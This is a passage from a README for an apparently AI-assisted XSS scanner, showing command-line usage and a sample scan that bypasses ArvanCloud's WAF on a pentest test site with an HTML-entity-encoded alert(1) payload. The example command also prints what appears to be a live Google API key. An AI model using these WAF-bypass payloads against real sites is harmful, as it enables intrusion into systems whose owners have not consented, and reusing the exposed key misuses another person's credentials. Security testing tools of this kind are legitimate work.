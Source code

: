### Without AI (Fallback Mode)
```bash
python xss_hunter.py -u "http://example.com/search?q=test"
```

## 🎯 Real-World Example

### Successful XSS Detection on ArvanCloud-Protected Site

```bash
python xss_hunter.py -u "https://aaapentestcdn.irbug.ir/xss.php?q=test" \
  --ai gemini \
  --api-key "AIzaSyAH0Yf5ngdru1EvgCT7hLWP4zf1lBSHEAQ" \
  -v
```

**Output:**
```
╔═══════════════════════════════════════════════════════╗
║           XSS Hunter - AI-Powered Scanner            ║
║              CDN/WAF Bypass Techniques                ║
╚═══════════════════════════════════════════════════════╝

[*] Initializing AI provider: gemini
[+] AI provider initialized successfully

[*] Scanning URL: https://aaapentestcdn.irbug.ir/xss.php?q=test
[+] Detected protection: arvancloud
[+] Found 1 parameters: q

[*] Testing parameter: q
[*] Generating AI-powered payloads...
[+] Generated 20 AI payloads
[1/20] Testing: <img src=x onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;...
[!] VULNERABLE! Payload: <img src=x onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">

============================================================
XSS SCAN REPORT
============================================================

[!] Found 1 XSS vulnerabilities:

Vulnerability #1:
  URL: https://aaapentestcdn.irbug.ir/xss.php?q=%3Cimg+src%3Dx+onerror%3D%22%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%22%3E
  Method: GET
  Parameter: q
  Payload: <img src=x onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
  Technique: AI-generated
```

**Analysis:**
- ✅ Detected ArvanCloud CDN protection
- ✅ AI generated HTML entity-encoded payload
- ✅ Successfully bypassed ArvanCloud WAF
- ✅ Payload: `<img src=x onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">`
- ✅ Decoded: `<img src=x onerror="alert(1)">`
